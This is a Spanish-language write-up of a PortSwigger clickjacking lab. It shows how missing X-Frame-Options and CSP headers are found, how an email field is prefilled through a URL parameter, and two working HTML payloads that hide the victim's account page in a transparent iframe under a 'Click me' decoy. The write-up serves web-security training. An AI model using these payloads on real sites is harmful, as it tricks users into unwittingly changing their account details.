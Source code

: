 ```yaml
---
title: "Clickjacking with form input data prefilled from a URL parameter"
description: "Laboratorio de Portswigger sobre Clickjacking"
date: 2025-03-26 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Clickjacking
tags:
  - Portswigger Labs
  - Clickjacking
  - Clickjacking with form input data prefilled from a URL parameter
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

El objetivo del `laboratorio` es cambiar la `dirección de correo electrónico` del usuario rellenando previamente un `formulario` mediante un `parámetro en la URL` y `engañando` al `usuario` para que `haga click` en un botón de `"Actualizar correo electrónico"`, llevando así a cabo, un `ataque de Clickjacking`. El `laboratorio` se considerará resuelto cuando la `dirección de correo electrónico` haya sido cambiada. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/Clickjacking-Lab-2/image_1.png)

Si hacemos click sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/Clickjacking-Lab-2/image_2.png)

Después de `iniciar sesión` vemos que podemos `cambiarnos` el `correo electrónico`

![](/assets/img/Clickjacking-Lab-2/image_3.png)

Si pulsamos sobre `View post` vemos que hay una sección de comentarios

![](/assets/img/Clickjacking-Lab-2/image_4.png)

Para ver si una `web` es `vulnerable` a `Clickjacking` podemos usar la herramienta `shcheck` [https://github.com/santoru/shcheck.git](https://github.com/santoru/shcheck.git()) para `identificar` las `cabeceras de seguridad`

```
# shcheck.py -i -x -k https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/

======================================================
 > shcheck.py - santoru ..............................
------------------------------------------------------
 Simple tool to check security headers on a webserver 
======================================================

[*] Analyzing headers of https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/
[!] URL Returned an HTTP error: 404
[*] Effective URL: https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/
[!] Missing security header: X-XSS-Protection
[!] Missing security header: X-Frame-Options
[!] Missing security header: X-Content-Type-Options
[!] Missing security header: Strict-Transport-Security
[!] Missing security header: Content-Security-Policy
[!] Missing security header: X-Permitted-Cross-Domain-Policies
[!] Missing security header: Referrer-Policy
[!] Missing security header: Expect-CT
[!] Missing security header: Permissions-Policy
[!] Missing security header: Cross-Origin-Embedder-Policy
[!] Missing security header: Cross-Origin-Resource-Policy
[!] Missing security header: Cross-Origin-Opener-Policy

[*] No information disclosure headers detected

[*] No caching headers detected
-------------------------------------------------------
[!] Headers analyzed for https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/
[+] There are 0 security headers
[-] There are not 12 security headers
```

Si preferimos usar una herramienta `web` podemos usar `securityheaders` [https://securityheaders.com/](https://securityheaders.com/) 

![](/assets/img/Clickjacking-Lab-2/image_5.png)

En este caso, vemos que la `web` no tiene ni `Content-Security-Policy (CSP)` ni `X-Frame-Options`, lo cual la hace vulnerable a `Clickjacking`

Algunos `sitios web` que requieren completar y enviar `formularios` permiten `rellenar previamente` los datos del `formulario` mediante `parámetros GET` antes del `envío`. Dado que los `valores GET` forman parte de la `URL`, la `URL de destino` puede `modificarse` para incorporar `valores elegidos por el atacante`

Hay otros `sitios web` que pueden requerir `interacción por parte del usuario`, como que el usuario `ingrese manualmente los datos`, complete `pasos previos` (como una `verificación CAPTCHA`) antes de `habilitar el envío`, etc

Para `comprobar` si `el formulario permite rellenar previamente los datos mediante parámetros GET`, lo primero que necesitamos hacer es `identificar` los `nombres` de los `campos`. En este caso vemos que el valor del campo a `rellenar` es `email`

![](/assets/img/Clickjacking-Lab-2/image_6.png)

El siguiente paso es `añadir` el `parámetro email` a la `URL` y ver si se `rellena` el `campo email del formulario`, para ello, accedemos a `https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/my-account?email=pwned@gmail.com` y vemos que sí que funciona

![](/assets/img/Clickjacking-Lab-2/image_7.png)

Una vez comprobado esto, ya podemos `construir` un `payload`, para ello, nos dirigimos al `Exploit Server` y pegamos este `payload`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.3;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:75px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/my-account?email=pwned@gmail.com"></iframe>
```

![](/assets/img/Clickjacking-Lab-2/image_8.png)

Pinchamos sobre `View exploit` para `comprobar` que está `bien centrado` el `div` que contiene el texto `Click me`

![](/assets/img/Clickjacking-Lab-2/image_9.png)

Una vez comprobado `modificamos` la `opacidad` a `0`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:75px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a1800bc042c20d98f01497400e5002b.web-security-academy.net/my-account?email=pwned@gmail.com"></iframe>
```

![](/assets/img/Clickjacking-Lab-2/image_10.png)

Otra forma alternativa sería usando la herramienta `Clickbandit` de `Burpsuite`, para usarla nos dirigimos a `Burpsuite` y pulsamos `Burp > Burp Clickbandit`

![](/assets/img/Clickjacking-Lab-2/image_11.png)

Pulsamos sobre `Copy Clickbandit to clipboard`

![](/assets/img/Clickjacking-Lab-2/image_12.png)

Nos dirigimos a `Chrome`, nos abrimos la `consola de desarrollador` y `pegamos` ahí todo el `código`

![](/assets/img/Clickjacking-Lab-2/image_13.png)

Una vez hecho esto nos saldrá este `menú`

![](/assets/img/Clickjacking-Lab-2/image_14.png)

Pulsamos en `Start` y `marcamos` la casilla `Disable click actions` para `desactivar` los `clicks`

![](/assets/img/Clickjacking-Lab-2/image_15.png)

Lo siguiente sería `pulsar sobre el botón que queremos`, en este caso sobre `Update email` que es el que queremos usar para el `ataque de Clickjacking`

![](/assets/img/Clickjacking-Lab-2/image_16.png)

Una vez hecho esto, `pulsamos` sobre `Finish` y se nos `mostrará` como es nuestro `payload` actualmente

![](/assets/img/Clickjacking-Lab-2/image_17.png)

Usando los símbolos `-` y `+`, podemos `subir` o `bajar` el `aumento`, y con `Toogle transparency` podemos `activar` o `desactivar` la `transparencia`. En mi caso, lo voy a dejar de esta forma. Cuando ya lo tengamos como queremos, pulsamos en `Save` y se nos `descargará` un `documento HTML`

![](/assets/img/Clickjacking-Lab-2/image_18.png)

`Pegamos` el `código` en el `Exploit server`

![](/assets/img/Clickjacking-Lab-2/image_19.png)

Pulsamos sobre `View exploit` para ver si se ve correctamente

![](/assets/img/Clickjacking-Lab-2/image_20.png)

Hacemos `click sobre el botón`

![](/assets/img/Clickjacking-Lab-2/image_21.png)

Nos dirigimos a  `My account` para ver `si ha funcionado el ataque`, y vemos que así es. Una vez comprobado que se `ve` y `funciona` correctamente, pulsamos sobre `Deliver exploit to victim` y completamos el `laboratorio`. Debemos tener en cuenta que `dos usuarios no pueden tener el mismo email`, por lo tanto deberemos `modificar el nuestro o el email que se usa en el payload`

![](/assets/img/Clickjacking-Lab-2/image_22.png)
